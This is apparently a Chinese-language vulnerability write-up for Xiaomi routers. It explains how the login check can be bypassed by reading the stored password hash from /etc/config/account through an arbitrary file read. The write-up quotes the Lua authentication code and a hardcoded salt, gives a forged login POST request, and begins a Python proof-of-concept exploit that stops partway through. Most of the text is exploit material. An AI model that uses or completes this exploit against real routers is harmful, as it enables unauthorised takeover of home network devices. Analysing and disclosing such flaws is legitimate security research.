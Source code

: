   

- 验证用户登陆的后端过程

  调用`XQSecureUtil.checkUser`函数

  ```java
  function checkUser(user, nonce, encStr)
      -- 从xiaoqiang 配置文件中读取信息
      local password = XQPreference.get(user, nil, "account")
      if password and not XQFunction.isStrNil(encStr) and not XQFunction.isStrNil(nonce) then
          if XQCryptoUtil.sha1(nonce..password) == encStr then
              return true
          end
      end
      XQLog.log(4, (luci.http.getenv("REMOTE_ADDR") or "").." Authentication failed", nonce, password, encStr)
      return false
  end
  ```

  跟进`XQPreference.get`函数易知道是从`/etc/config/account`文件中读取某个字符串，这里称它为`accountStr`。

  `checkUser`函数判断等式为(encStr为参数oldPwd)

  ```
  sha1(nonce + sha1(密码 + 'a2ffa5c9be07488bbb04a3a47d3c5f6a'))
  ==
  sha1(nonce + accountStr)
  ```

  则

  ```
  accountStr == sha1(密码 + 'a2ffa5c9be07488bbb04a3a47d3c5f6a')
  ```

  故，只需要读取`/etc/config/account`得到`accountStr`即可构造如下数据包登陆

  ```shell
  POST /cgi-bin/luci/api/xqsystem/login HTTP/1.1
  Host: 192.168.31.1
  
  username=admin&password=sha1(nonce + account中保存的字符串)&logtype=2&nonce=0_mac地址_时间戳_5248
  ```



实现任意登陆poc

arbitrary_file_read_vulnerability.py

```python
import os
import re
import time
import base64
import random
import hashlib
import requests
from Crypto.Cipher import AES

# proxies = {"http":"http://127.0.0.1:8080"}
proxies = {}

def get_mac():
	## get mac
	r0 = requests.get("http://192.168.31.1/cgi-bin/luci/web", proxies=proxies)
	mac = re.findall(r'deviceId = \'(.*?)\'', r0.text)[0]
	# print(mac)	
	return mac

def get_account_str():
```